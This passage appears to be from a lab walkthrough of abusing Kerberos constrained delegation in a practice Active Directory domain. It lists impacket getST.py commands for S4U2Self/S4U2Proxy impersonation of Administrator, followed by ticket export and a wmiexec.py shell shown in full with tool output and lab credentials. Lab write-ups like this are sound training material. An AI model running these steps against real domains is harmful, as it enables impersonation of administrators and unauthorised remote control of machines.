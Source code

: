 This means that it allows a service to obtain a Kerberos ticket on behalf of a user, even if the user authenticated using a non-Kerberos protocol, such as NTLM authentication.

Now first let's ask a TGT for the user and execute S4U2Self followed by a S4U2Proxy in order to impersonate an admin user to the SPN on the target.

`getST.py` from impacket can be used for this task:

`getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '10.4.10.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'`

And the ticket is saved now:

```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for user
[*] Impersonating Administrator
/home/kali/.local/bin/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/.local/bin/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/home/kali/.local/bin/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/.local/bin/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@CIFS_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache
```

Then export the ticket:

`export KRB5CCNAME=/home/kali/Documents/delegations/Coercer/coercer/Administrator@CIFS_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache`

Now let's use this to connect using `wmiexec.py`:

`wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell`

And I got connected:

```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
north\administrator
```
